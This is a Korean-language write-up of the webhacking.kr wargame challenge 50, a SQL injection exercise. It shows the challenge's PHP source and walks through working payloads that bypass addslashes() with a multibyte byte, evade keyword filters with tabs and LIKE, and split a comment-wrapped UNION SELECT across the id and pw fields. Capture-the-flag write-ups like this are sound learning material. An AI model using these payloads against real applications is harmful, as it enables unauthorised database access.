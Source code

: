 ```yaml
---
title: "[webhacking.kr] 50번 문제 풀이[SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "50번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 50번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152800629-e4705d63-a9d3-4697-b4b0-62419191d9f5.png)

  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
  ```

# 문제 풀이
  injection을 해야하는 sql 문 부터 보면 다음과 같습니다.

  ```sql
select lv from chall50 where id='{}' and pw=md5('{}')
  ```

  우선 GET['id']의 경우 addslashes() 함수 이후에 mb_convert_encoding함수를 사용하여 UTF-8로 인코딩을 바꿔줬기 때문에 multibyte encoding을 이용하여 addslashes() 함수를 우회할 수 있습니다. 이를 이용해서 id에 익젝션을 수행할 쿼리문을 작성합니다.

  ```sql
id=%aa' or lv=3--%20
  ```

  쿼리문에서 문제에서 preg_match로 필터링 하는 문자를 우회하도록 바꿔줍니다. 
  
  **공백 -> %09** , **= -> like**

  ```sql
id=%aa'%09or%09lv%09like%093--%09
  ```

  쿼리문을 수행해 봤더니 다음과 같이 안됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/152801787-2c8a9cb4-49b3-4aed-afb8-949597d16116.png)

  혹시 테이블에 lv=3인 데이터가 없는지 확인해 보기 위해서 like 3 을 like 2로 바꿔서 해봤더니 like 2 는 성공적으로 수행됩니다.
  
  ![image](https://user-images.githubusercontent.com/33647663/152802015-6ad5c2d4-4750-4056-a11f-d3f766c88cf7.png)


  즉, 테이블에 lv = 2인 데이터는 있기 때문에 나온 것이고 lv=3인 데이터는 없기 때문에 안나온 것입니다.

  테이블에 데이터가 없기 때문에 **union select** 구문을 이용해야 합니다.

  하지만 이번 문제에서 가장 까다로운 조건이 하나 붙어 있었습니다. 다음 조건 때문에 id에는 union을 사용할 수 없었습니다.

  ```php
if(preg_match("/union/i",$_GET['id'])) exit();
  ```

  그렇기 때문에 pw를 통해서 union select 구문을 수행시켜야 합니다.

  이번 문제를 풀기위한 아이디어는 **주석**을 사용하는 것입니다. 다음과 같이 id 와 pw 사이에 ```/* */```를 끼워 넣습니다.

  ```sql
select lv from chall50 where id='%aa'/* and pw=md5('*/')
  ```
   
  그러면 pw 쪽에서 ```'```가 지워지기 때문에 쿼리문을 작성할 수 있습니다.

  - id : %aa'/*
  - pw : */union%09select%093%23

  위와 같이 쿼리문을 만들어서 서버로 전송하면 다음과 같이 문제가 클리어 됩니다.
  
![image](https://user-images.githubusercontent.com/33647663/152832453-87bd0d8c-fef7-4bbd-a180-11b7ea30e04e.png)